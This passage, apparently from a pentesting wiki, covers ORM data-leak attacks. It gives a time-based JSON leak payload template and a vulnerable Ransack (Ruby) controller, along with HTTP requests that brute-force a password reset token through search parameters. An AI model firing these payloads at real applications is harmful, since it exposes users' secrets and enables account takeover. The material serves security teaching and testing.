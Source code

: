 ```json
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```

* **Error/Timed queries**: In the original post you can read an very extensive set of tests performed in order to find the optimal payload to leak information with a time based payload. This is:

```json
{
    "OR": [
        {
            "NOT": {ORM_LEAK}
        },
        {CONTAINS_LIST}
    ]
}
```

Where the `{CONTAINS_LIST}` is a list with 1000 strings to make sure the **response is delayed when the correct leak is found.**

## **Ransack (Ruby)**

These tricks where [**found in this post**](https://positive.security/blog/ransack-data-exfiltration)**.**

{% hint style="success" %}
**Note that Ransack 4.0.0.0 now enforce the use of explicit allow list for searchable attributes and associations.**
{% endhint %}

**Vulnerable example:**

```ruby
def index
  @q = Post.ransack(params[:q])
  @posts = @q.result(distinct: true)
end
```

Note how the query will be defined by the parameters sent by the attacker. It was possible to for example brute-force the reset token with:

```http
GET /posts?q[user_reset_password_token_start]=0
GET /posts?q[user_reset_password_token_start]=1
...
```
